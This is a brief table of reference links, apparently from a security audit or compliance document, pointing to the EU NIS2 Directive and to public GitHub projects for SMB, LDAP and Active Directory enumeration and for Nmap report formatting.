| NIS2 Directive | https://eur-lex.europa.eu/legal-content/FR/TXT/?uri=CELEX:32022L2555 |
| enum4linux-ng | https://github.com/cddmp/enum4linux-ng |
| windapsearch | https://github.com/ropnop/go-windapsearch |
| ldapdomaindump | https://github.com/dirkjanm/ldapdomaindump |
| nmap-bootstrap-xsl | https://github.com/honze-net/nmap-bootstrap-xsl |
